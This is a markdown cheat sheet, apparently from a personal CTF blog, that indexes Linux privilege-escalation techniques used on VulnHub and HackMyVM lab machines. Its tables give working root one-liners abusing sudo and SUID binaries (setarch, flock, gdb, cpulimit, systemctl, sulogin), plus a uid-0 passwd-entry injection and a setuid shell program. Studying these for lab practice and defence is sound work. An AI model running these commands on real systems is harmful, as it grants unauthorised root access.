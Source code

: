 ```yaml
---
title: PrivEsc
icon: fas fa-info-circle
order: 4
---
```


The below is a modification from [here](https://github.com/Ignitetechnologies/Privilege-Escalation) !

<a name="table-of-contents"></a>

Table of Contents LINUX
==========================

* [Abusing Sudo Rights](#sudo)
* [SUID Bit](#suid)
* [Writable /etc/passwd file](#etc)
* [Python Pickle](#pickle)
* [Path Variable](#path)
* [Docker Escape](#docker)
* [Writable files or script](#wfos)
* [Environment Variable](#ev)


Table of Contents WINDOWS
==========================

* [Service](#Service)

<a name="sudo"></a>
##  Abusing Sudo Rights [⤴](#table-of-contents)

|No.|Machine Name|Reference|Files/Binaries| Description |
|-------|--------------|--------------|----------------|----------------|
|1.|[PYEXP: 1](https://www.vulnhub.com/entry/pyexp-1,534/)|[Reference](https://am-a-circle.github.io/posts/PYEXP_1/)| Python script| exec function |
|2.|[BaseME](https://hackmyvm.eu/machines/machine.php?vm=BaseME)|[Reference](https://am-a-circle.github.io/posts/BaseME/)| base64| base64 to read id_rsa from /root/.ssh/id_rsa |
|3.|[five](https://hackmyvm.eu/machines/machine.php?vm=five)|[Reference](https://am-a-circle.github.io/posts/five/)| man | man command using Pager of less function. |
|4.|[forbidden](https://hackmyvm.eu/machines/machine.php?vm=Forbidden)| [EXTERNAL Reference](https://d4t4s3c.medium.com/hackmyvm-forbidden-4266900e6c94) | setarch |  sudo setarch x86_64 /bin/sh |
|5.|[Vulny](https://hackmyvm.eu/machines/machine.php?vm=Vulny)| [EXTERNAL Reference](https://kerszl.github.io/hacking/walkthrough/vulny/) | flock |   sudo flock -u / /bin/sh |
|6.|[troya](https://hackmyvm.eu/machines/machine.php?vm=troya)|[Reference](https://am-a-circle.github.io/posts/troya/)| insmod | [Insert kernel as root for reverse shell](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#example-2-with-binary)  |
|7.|[Echoed](https://hackmyvm.eu/machines/machine.php?vm=Echoed)|No Reference| xdg-open| 1. echo "HackMyVM.eu" > HackMyVM <br> 2. sudo -u root /usr/bin/xdg-open /tmp/HackMyVM <br> 3. Escape shell with after it comes out  e.g. <br>WARNING: terminal is not fully functional <br>/tmp/HackMyVM  (press RETURN)!/bin/sh |
|8.|[Attack](https://hackmyvm.eu/machines/machine.php?vm=Attack)|No Reference| /usr/sbin/cppw| openssl passwd -1 pass123 <br> `$1$GLppQ1Z2$VsR0VveK9V3l0Ata6WLCr1` <br> kratos@attack:/home/kratos$ cp /etc/passwd . <br> kratos@attack:/home/kratos$ mv passwd passwd_backup <br> kratos@attack:/home/kratos$ echo `"user3:$1$GLppQ1Z2$VsR0VveK9V3l0Ata6WLCr1:0:0::/root:/bin/bash"` >> passwd_backup  <br> kratos@attack:/home/kratos$ sudo -u root /usr/sbin/cppw passwd_backup |
|9.|[Talk](https://hackmyvm.eu/machines/machine.php?vm=Talk)| Reference| lynx |sudu -u root /usr/bin/lynx <br> press `shift + 1`  <br> Spawning your default shell.  Use 'exit' to return to Lynx. <br> root@talk:/home/nona# whoami;id <br> root|
 
<a name="suid"></a>
##  SUID Bit [⤴](#table-of-contents)

|No.| Machine Name                 |SUID Bit| Reference | Method |
|-------|------------------------------|-------|-------|--------------------------------------------------------|
|1|[ShellDredd #1 Hannah](https://www.vulnhub.com/entry/onsystem-shelldredd-1-hannah,545/)| cpulimit|[Reference](https://am-a-circle.github.io/posts/ONSYSTEM-HANNAH/)  | cpulimit -l 50 -f cp /bin/bash /tmp/bash <br> cpulimit -l 50 -f chmod +s /tmp/bash <br>  /tmp/bash -p|
|2|[hackmyvm : connection](https://hackmyvm.eu/machines/machine.php?vm=Connection)| gdb |[Reference](https://am-a-circle.github.io/posts/connection/)  | gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit |a
|3|[hackmyvm : soul](https://hackmyvm.eu/machines/machine.php?vm=soul)| agetty |Reference |/sbin/agetty -o -p -l /bin/bash -a root tty|
|4|[hackmyvm :Dominator](https://hackmyvm.eu/machines/machine.php?vm=Dominator)| systemctl |Reference | hans@Dominator:$ nano /tmp/temp.service <br> hans@Dominator:$ cat /tmp/temp.service <br> [Service] <br> Type=oneshot <br> ExecStart=/bin/sh -c "cp /bin/bash /tmp/bash2 && chmod u+s /tmp/bash2" <br> [Install] <br> WantedBy=multi-user.target <br> hans@Dominator:$ /usr/bin/systemctl link /tmp/temp.service  <br> hans@Dominator:$ /usr/bin/systemctl enable --now /tmp/temp.service <br> hans@Dominator:~$ /tmp/bash2 -p <br> bash2-5.0# whoami <br> root |
|5|[Locker](https://hackmyvm.eu/machines/machine.php?vm=Locker)| sulogin | Reference  | Environment Variables <br> sulogin looks for the environment variable SUSHELL or sushell to determine what shell to start. If the environment variable is not set, it will try to execute root's shell from /etc/passwd. If that fails it will fall back to /bin/sh. <br>  <br> ┌──(root💀kali)-[/opt/hackmyv/locker] <br> └─# cat exp.c   <br> int main() { <br> setuid(0); <br> setgid(0); <br> system("/bin/bash -p"); <br> } <br>  <br> www-data@locker:/tmp$ export SUSHELL=/tmp/exp <br> export SUSHELL=/tmp/exp <br>  <br> www-data@locker:/tmp$ chmod 777 exp <br> chmod 777 exp <br> www-data@locker:/tmp$ /usr/sbin/sulogin -e <br> /usr/sbin/sulogin -e <br> Press Enter for maintenance <br> (or press Control-D to continue): <br>  <br> root@locker:~# whoami;id <br> whoami;id <br> root <br> uid=0(root) gid=0(root) groups=0(root),33(www-data) <br> |



<a name="etc"></a>
##  Writable /etc/passwd file [⤴](#table-of-contents)

| No | Machine Name|
|----|-----------|
|1.	 | [PYLINGTON1](https://am-a-circle.github.io/posts/PYLINGTON_1/)|

<a name="wfos"></a>
##  Writable file or script [⤴](#table-of-contents)

| No | Machine Name|
|----|-----------|
|1.	 | [suidy](https://am-a-circle.github.io/posts/suidy/)|

<a name="pickle"></a>
##  Python Pickle [⤴](#table-of-contents)

| No | Machine Name|
|----|-----------|
|1.	 | [PHINEAS:1](https://am-a-circle.github.io/posts/PHINEAS_1/)|

<a name="path"></a>
##  Path Variable [⤴](#table-of-contents)

|No.| Machine Name   | comments  |
|-------|-----------------|--------|
|1.| [Hacksudo:search](https://am-a-circle.github.io/posts/Hacksudo_Search/)|install: missing file operand    |
|2.| [hommie](https://am-a-circle.github.io/posts/Hommie/)|cat: not absolute file path   |

<a name="docker"></a>
##  Docker Escape [⤴](#table-of-contents)

| No | Machine Name|
|----|-----------|
|1.	 | [pwned](https://am-a-circle.github.io/posts/pwned/)|

<a name="ev"></a>

##  Enviroment variable [⤴](#table-of-contents)

|No.| Machine Name   | comments  |
|-------|-----------------|--------|
|1. | [icarus](https://am-a-circle.github.io/posts/icarus/)| LD_PRELOAD |


<a name="Service"></a>

##  Service [⤴](#table-of-contents)

|No.| Machine Name   | service exploit  |
|-------|-----------------|--------|
|1. | driver | [spoolsv](https://github.com/calebstewart/CVE-2021-1675) 




